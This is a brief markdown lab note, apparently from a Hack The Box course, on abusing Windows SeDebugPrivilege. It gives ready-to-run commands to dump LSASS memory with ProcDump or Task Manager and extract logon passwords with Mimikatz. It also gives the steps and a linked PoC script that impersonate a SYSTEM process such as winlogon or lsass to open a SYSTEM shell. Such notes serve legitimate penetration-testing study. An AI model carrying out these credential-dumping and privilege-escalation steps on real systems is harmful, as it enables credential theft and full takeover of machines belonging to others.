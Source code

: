 # SeDebugPrivilege
## whoami /priv confirms that SeDebugPrivilege is listed.
1. We can use ProcDump from the SysInternals suite to leverage this privilege and dump process memory. A good candidate is the Local Security Authority Subsystem Service (LSASS) process, which stores user credentials after a user logs on to a system
```
C:\htb> procdump.exe -accepteula -ma lsass.exe lsass.dmp
```
2. Mimikatz
```
log
```
```
sekurlsa::minidump lsass.dmp
```
3. input the directory for lsass.dmp
```
sekurlsa::logonpasswords
```
Suppose we are unable to load tools on the target for whatever reason but have RDP access. In that case, we can take a manual memory dump of the LSASS process via the Task Manager by browsing to the Details tab, choosing the LSASS process, and selecting Create dump file. After downloading this file back to our attack system, we can process it using Mimikatz the same way as the previous example.
### Remote Code Execution as SYSTEM
1. transfer this PoC script over to the target system.
```
https://github.com/decoder-it/psgetsystem?tab=readme-ov-file
```
2. open an elevated PowerShell console
3. type `tasklist` to get a listing of running processes and accompanying PIDs.
4. Here we can target winlogon.exe running under PID 612, which we know runs as SYSTEM on Windows hosts. (winlogon ppid is 1868 in my case)
```
.\psgetsys.ps1
```
```
ImpersonateFromParentPid -ppid 1868 -command C:\Windows\System32\cmd.exe
```
5. We could also use the Get-Process cmdlet to grab the PID of a well-known process that runs as SYSTEM (such as LSASS) and pass the PID directly to the script, cutting down on the number of steps required.
```
ImpersonateFromParentPid -ppid (Get-Process "lsass").Id -command C:\Windows\System32\cmd.exe
```

